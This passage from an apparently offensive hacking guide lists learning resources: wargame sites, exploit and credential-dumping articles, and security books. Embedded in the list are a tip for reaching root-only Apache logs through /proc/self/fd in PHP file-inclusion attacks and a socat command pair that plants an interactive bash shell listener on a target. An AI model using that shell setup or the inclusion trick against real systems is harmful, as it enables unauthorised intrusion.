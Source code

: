 2) Taking advantage of the fact that people are nice, trusting, and helpful 95% of the time.

The infosec industry invented a term to make this sound like some sort of science: "Social Engineering". This is probably the way to go if you don't know too much about computers, and it really is all it takes to be a successful hacker.

## -- 9 -- Resources

Links:

https://www.pentesterlab.com/exercises/

http://overthewire.org/wargames/

http://www.hackthissite.org/

http://smashthestack.org/

http://www.win.tue.nl/~aeb/linux/hh/hh.html

http://www.phrack.com/

http://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot

http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash

https://securusglobal.com/community/2013/12/20/dumping-windows-credentials/

https://www.netspi.com/blog/entryid/140/resources-for-aspiring-penetration-testers (all his other blog posts are great too)

https://www.corelan.be/ (start at Exploit writing tutorial part 1)

http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

One trick it leaves out is that on most systems the apache access log is readable only by root, but you can still include from /proc/self/fd/10 or whatever fd apache opened it as. It would also be more useful if it mentioned what versions of php the various tricks were fixed in.

http://www.dest-unreach.org/socat/

Get usable reverse shells with a statically linked copy of socat to drop on your target and: target$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:PORTNUM host$ socat file:tty,raw,echo=0 tcp-connect:localhost:PORTNUM It's also useful for setting up weird pivots and all kinds of other stuff.

Books:

The Web Application Hacker's Handbook

Hacking: The Art of Exploitation

The Database Hacker's Handbook

The Art of Software Security Assessment

A Bug Hunter's Diary

Underground: Tales of Hacking, Madness, and Obsession on the Electronic Frontier

TCP/IP Illustrated
